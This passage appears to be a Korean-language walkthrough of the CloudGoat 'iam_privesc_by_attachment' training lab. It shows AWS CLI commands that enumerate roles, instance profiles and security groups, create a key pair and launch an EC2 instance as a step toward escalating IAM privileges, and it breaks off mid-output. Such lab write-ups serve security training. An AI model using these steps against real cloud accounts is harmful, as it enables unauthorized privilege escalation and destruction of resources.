# 클라우드 서비스 취약점 분석 5

# [Scenario 4]:  IAM Privilege Escalation By Attachment

```bash
Size: Medium
Difficulty: Moderate
Command: $ ./cloudgoat.py create iam_privesc_by_attachment
```

## 시나리오 개요

### 자원

- vpc (EC2)
- 1 IAM User

### 취약점

- IAM User "Kerrigan"
- `iam:AttachUserPolicy` 권한이 있는 공격자는 액세스 권한이 있는 사용자에게 정책을 연결하고 해당 정책에 대한 권한을 공격자에게 추가하여 권한을 상승시킬 수 있습니다.

### 목표

- EC2 instance "cg-super-critical-security-server."를 삭제하는 것!
- 접근 권한 구성이 갖쳐져 있는 환경에서 공격자는 `instance-profile-attachment` 권한을 활용하여 현재 권한이 아닌 높은 권한으로 새로운 EC2 인스턴스를 생성할 수 있습니다.
- 새로운 EC2 인스턴스에서 액세스를 통해 공격자는 대상 계정 내에서 모든 관리 권한을 획득합니다.
- `cg-super-critical-security-server` 를 삭제를 합니다.

### exploit 흐름도



### 시나리오 환경설정





### exploit 시나리오 흐름도

1. 공격자는 IAM 사용자 "Kerrigan"으로 시작하여 높은 수준의 접근제어 권한에서 취약점 분석을 진행합니다.
2. 공격자는 먼저 EC2 인스턴스를 조회하면서 `cg-super-critical-security-server`을 식별은 하지만 대상에 직접 영향을 줄 수 가 없기 때문에 다른 방향으로 접근합니다.
3. 공격자는 계정 내의 기존 인스턴스 프로필과, 역활들을 Enum 하고 사용할 수 있는 인스턴스 프로필과 Rule을 결정합니다.
4. 때를 기다리던 공격자는 전체 관리자 역활을 인스턴스 프로필로 변경합니다.
5. 다음으로 공격자는 새로운 EC2 Key-Pair를 생성합니다.
6. 공격자는 해당 key-pari으로 새로운 EC2 인스턴스를 생성함으로써 셸 접근 권한이 생기게 되었습니다.
7. 익스플로잇의 마지막 단계에로서 공격자는 전체적인 관리자 권한이 부여된 인스턴스 프로필을 EC2 인스턴스에 연결을 합니다.
8. 새로운 EC2 인스턴스에 액세스 하고 스테이징 플랫폼으로 사용함으로써 공격자는 연결된 프로필의 역활에 의해 부여된 전체 관리자 권한으로 AWS CLI 명령을 실행할 수 있습니다.
9. 공격자는 "cg-super-critical-security-server" EC2 인스턴스를 종료하여 시나리오를 완료할 수 있습니다.

## Exploit 시나리오

### Kerrigan IAM Profile

- 해당 환경에서 AWS Security Credential 정보가 있는 것을 확인할 수 있습니다.  해당 정보를 토대로 enum를 수행하려는 경우 첫 번째 단계는 AWS CLI를 사용해서 Security Credential 새로 생서하는 것입니다.


- pacu 도구를 사용하여 `aws__enum__account` 정보를 토대로 `kerrigan` 사용자의 aws accountid와 동일하지를 확인하였습니다.



- 해당 AWS 정보를 이용하여 enumeration 정보를 확인해 봤습니다.

```bash
cloudgoat_output_aws_account_id = 712987748923
cloudgoat_output_kerrigan_access_key_id = <ACCESS_KEY>
cloudgoat_output_kerrigan_secret_key = <ACCESS_SECRET_KEY>
```

- AWS Security Credential을 토대로 enumeration 한 결과 좀더 조사할 가치가 있음을 확인하였습니다.



- 시나리오 최종 목푱니 EC2 머신인 'cg-super-critical-security-server' 가 사용 가능하지를 확인해봤습니다. AWS Rule은 EC2 태그를 검색할 수 있도록 태그 키가 "Name"인 태그에 EC2 인스턴스의 이름을 추가로 넣는 것 입니다.





```bash
aws ec2 describe-instances --query 'Reservations[*].Instances[*].[Tags]' \
--profile kerrigan
```

- aws cli 기능에는 `query` 옵션을 통해서 출력 형식 json 배열의 모든 출력값을 필터링 할 수 있습니다. `Reservations[*].Instances[*].[Tags]` 형태로 `*` 와일드카드 형태로 표현식을 작성할 수 있습니다.

```json
[
    [
        [
            [
                {
                    "Key": "Name",
                    "Value": "ec2-vulnerable-proxy-server-cloud_breach_s3_cgid63w57aulmi"
                },
                {
                    "Key": "Scenario",
                    "Value": "cloud-breach-s3"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                }
            ]
        ]
    ],
    [
        [
            [
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_cgidmbi301d8zu super-critical-security-server EC2 Instance"
                }
            ]
:...skipping...
[
    [
        [
            [
                {
                    "Key": "Name",
                    "Value": "ec2-vulnerable-proxy-server-cloud_breach_s3_cgid63w57aulmi"
                },
                {
                    "Key": "Scenario",
                    "Value": "cloud-breach-s3"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                }
            ]
        ]
    ],
    [
        [
            [
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_cgidmbi301d8zu super-critical-security-server EC2 Instance"
                }
            ]
        ]
[...skipping...
    [
        [
            [
                {
                    "Key": "Name",
                    "Value": "ec2-vulnerable-proxy-server-cloud_breach_s3_cgid63w57aulmi"
                },
                {
                    "Key": "Scenario",
                    "Value": "cloud-breach-s3"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                }
            ]
        ]
    ],
    [
        [
            [
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_cgidmbi301d8zu super-critical-security-server EC2 Instance"
                }
            ]
        ]
    ]
:...skipping...
[
    [
        [
            [
                {
                    "Key": "Name",
                    "Value": "ec2-vulnerable-proxy-server-cloud_breach_s3_cgid63w57aulmi"
                },
                {
                    "Key": "Scenario",
                    "Value": "cloud-breach-s3"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                }
            ]
        ]
    ],
    [
        [
            [
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_cgidmbi301d8zu super-critical-security-server EC2 Instance"
                }
            ]
        ]
    ]
]
:...skipping...
[
    [
        [
            [
                {
                    "Key": "Name",
                    "Value": "ec2-vulnerable-proxy-server-cloud_breach_s3_cgid63w57aulmi"
                },
                {
                    "Key": "Scenario",
                    "Value": "cloud-breach-s3"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                }
            ]
        ]
    ],
    [
        [
            [
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                },
                {
                    "Key": "Stack",
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Name",
                    "Value": "CloudGoat iam_privesc_by_attachment_cgidmbi301d8zu super-critical-security-server EC2 Instance"
                }
            ]
        ]
    ]
]
```

- 해당 정보를 통해서 `cg-super-critical-security-server` 가 사용하다는 것을 알 수 있습니다.

```json
super-critical-security-server
```

- IAM 사용자 "Kerrigan" 으로서 우리는 EC2 "Instance Profile" 과 관련된 정보를 검색할 수 가 있습니다.
- 인스턴스 프로파일은 Single IAM Rule Container입니다.
- EC2 인스턴스에 IAM Rule을 직접 할당할 수 는 없지만 Rule이 포함된 인스턴스 프로파일은 할당할 수 있습니다.
- 사용 가능한 인스턴스 프로필등을 나열하여 확인해보았습니다.  아래의 명령을 통해 cloudgoat가 규칙으로 모든 리소스의 이름을 다음으로 `--query` 로 `cg` 로 시작하는 인스턴스 Rule을 쿼리하였습니다.

```json
aws iam list-instance-profiles --query "InstanceProfiles[?starts_with(InstanceProfileName, 'cg')]" --profile kerrigan

InstanceProfileName -> (문자열)

인스턴스 프로파일을 식별하는 이름입니다.
```



```json
"InstanceProfileName": "cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu",
"RoleName": "cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu",
```

- AWS 게정에는 `cg-ec2-meek-instance-profile-[CLOUD_GOAT_ID]` , `cg-ec2-meek-role-[CLOUD_GOAT_ID]` 형태의 패턴으로 IAM Rule에 대한 정보를 확인할 수있습니다.
- IAM 사용자 kerrigan으로서 IAM Rule과 관련된 정보를 검색할수도 있습니다. 해당 부분에서 사용할 수 있는 IAM 역활들을 나열해 봤습니다.

```json
aws iam list-roles --query "Roles[?starts_with(RoleName, 'cg')]" --profile kerrigan
```



- AWS 두 IAM Rule 계정을 확인할 수 가 있습니다.

```json
cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu

cg-ec2-mighty-role-iam_privesc_by_attachment_cgidmbi301d8zu
```

- RoleName에서 확인할 수 있듯이 meek, mighty 키워드를 통해 권한 레벨을 확인할 수 가 있습니다. 뜻 그대로 meek < mighty 레벨 입니다. 이러한 권한 으로 인해 접근 제한이 되어 액세스 거부 문제가 발생할 수 있습니다.

### 권한 역활을 파악하는 방법

- EC2 인스턴스에 연결하고 EC2를 사용하여 역할 권한을 열거하는 것입니다.
- IAM 역할은 EC2에 직접 연결할 수 없으며 인스턴스 프로파일에 Wrapping되어야 합니다.
- 해당 방법을 사용하려면 AWS 계정의 인스턴스 프로필을 사용하여 EC2 인스턴스를 생성할 수 있어야 합니다.
- EC2 인스턴스를 생성을 하기 전에 필요한 데이터가 있어야 합니다.

```json
1. EC2 Instance 를 시작할 subnet
2. EC2 Instance에 대한 SSH 액세스를 허용하는 보안 그룹
3. EC2 Instance에 SSH로 연결하는데 사용할 수 있는 SSH key-pair

-> 삭제 대상 EC2 머신과 동일한 Subnet을 사용할 수 있습니다.
subnet-04d05182b53c1ff11
```



- 인스턴스에서 필요한 subnet 부분을 쿼리로 검색한 결과 2개의 데이터가 출력이 되었습니다.

```json
aws ec2 describe-instances \
    --query 'Reservations[*].Instances[*].[SecurityGroups]' \
    --output text --profile kerrigan

sg-04ffcf8e873ee2103    cg-ec2-ssh-iam_privesc_by_attachment_cgidmbi301d8zu
sg-063079fb3bea2c77e    cg-ec2-http-iam_privesc_by_attachment_cgidmbi301d8zu
```



- 앞서 출력된 서브넷 정보와 보안 그룹을 열거하고 EC2 인스턴스에 대한 SSH 액세스를 허용하는 보안 그룹을 분석하였습니다.

### EC2 Key pair 생성

- 앞선 필요한 정보들을 수집한후 AWS 계정에서 기존 key-pair를 사용할 수 없기 때문에 새로운 SSH key-pair를 생성하였습니다. 생성할 수 있는 EC2 머신에서 SSH 연결하려면 새로운 key-pair가 필요합니다.

```json
aws ec2 create-key-pair \
    --key-name fake-ec2  \
    --query 'KeyMaterial' \
    --output text > fake-ec2.pem \
    --region us-east-1 \
    --profile kerrigan
```



- 다음과 같이 key-pair를 생성하였습니다.
- 새로운 EC2 인스턴스를 생성하는 데 있어서 필요한 모든 정보들을 수집하였고 이에 대해 EC2 인스턴스를 생성하였습니다.



```json
1. 대상 EC2 인스턴스와 동일한 서브넷
2. SSH 액세스를 허용하는 보안 그룹
3. SSH 인증을 위한 SSH 키 쌍으로 새로 생성
4. cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu 인스턴스 프로필 연결

aws ec2 run-instances \
    --image-id ami-0a313d6098716f372 \
    --instance-type t2.micro \
    --iam-instance-profile Arn=arn:aws:iam::712987748923:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --key-name fake-ec2 \
    --subnet-id subnet-04d05182b53c1ff11 \
    --security-group-ids sg-04ffcf8e873ee2103 \
    --region us-east-1 \
    --profile kerrigan

arn:aws:iam::712987748923:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu
```





- 새로운 EC2 인스턴스를 성공적으로 생성할 수 가 있습니다. 출력되는 정보는 새 EC2 인스턴스의 세부정보이기 때문에 저장을 해둡니다.

```json
{
    "Groups": [],
    "Instances": [
        {
            "AmiLaunchIndex": 0,
            "ImageId": "ami-0a313d6098716f372",
            "InstanceId": "i-0a726b6396cec2a5e",
            "InstanceType": "t2.micro",
            "KeyName": "fake-ec2",
            "LaunchTime": "2021-08-12T18:29:38+00:00",
            "Monitoring": {
                "State": "disabled"
            },
            "Placement": {
                "AvailabilityZone": "us-east-1a",
                "GroupName": "",
                "Tenancy": "default"
            },
            "PrivateDnsName": "ip-10-0-10-102.ec2.internal",
            "PrivateIpAddress": "10.0.10.102",
            "ProductCodes": [],
            "PublicDnsName": "",
            "State": {
                "Code": 0,
                "Name": "pending"
            },
            "StateTransitionReason": "",
            "SubnetId": "subnet-04d05182b53c1ff11",
            "VpcId": "vpc-01585d6620e5d752f",
            "Architecture": "x86_64",
            "BlockDeviceMappings": [],
            "ClientToken": "8e003941-0ceb-47b4-9730-71cb25aa529d",
            "EbsOptimized": false,
            "EnaSupport": true,
            "Hypervisor": "xen",
            "IamInstanceProfile": {
                "Arn": "arn:aws:iam::712987748923:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu",
                "Id": "AIPA2MALBVI5RQHINFLHJ"
            },
            "NetworkInterfaces": [
                {
                    "Attachment": {
                        "AttachTime": "2021-08-12T18:29:38+00:00",
                        "AttachmentId": "eni-attach-03cf3a976529cfabe",
                        "DeleteOnTermination": true,
                        "DeviceIndex": 0,
                        "Status": "attaching",
                        "NetworkCardIndex": 0
                    },
                    "Description": "",
                    "Groups": [
                        {
                            "GroupName": "cg-ec2-ssh-iam_privesc_by_attachment_cgidmbi301d8zu",
                            "GroupId": "sg-04ffcf8e873ee2103"
                        }
                    ],
                    "Ipv6Addresses": [],
                    "MacAddress": "0a:fc:1e:7d:bf:59",
                    "NetworkInterfaceId": "eni-0aad79f50a762977a",
                    "OwnerId": "712987748923",
                    "PrivateDnsName": "ip-10-0-10-102.ec2.internal",
                    "PrivateIpAddress": "10.0.10.102",
                    "PrivateIpAddresses": [
                        {
                            "Primary": true,
                            "PrivateDnsName": "ip-10-0-10-102.ec2.internal",
                            "PrivateIpAddress": "10.0.10.102"
                        }
                    ],
                    "SourceDestCheck": true,
                    "Status": "in-use",
                    "SubnetId": "subnet-04d05182b53c1ff11",
                    "VpcId": "vpc-01585d6620e5d752f",
                    "InterfaceType": "interface"
                }
            ],
            "RootDeviceName": "/dev/sda1",
            "RootDeviceType": "ebs",
            "SecurityGroups": [
                {
                    "GroupName": "cg-ec2-ssh-iam_privesc_by_attachment_cgidmbi301d8zu",
                    "GroupId": "sg-04ffcf8e873ee2103"
                }
            ],
            "SourceDestCheck": true,
            "StateReason": {
                "Code": "pending",
                "Message": "pending"
            },
            "VirtualizationType": "hvm",
            "CpuOptions": {
                "CoreCount": 1,
                "ThreadsPerCore": 1
            },
            "CapacityReservationSpecification": {
                "CapacityReservationPreference": "open"
            },
            "MetadataOptions": {
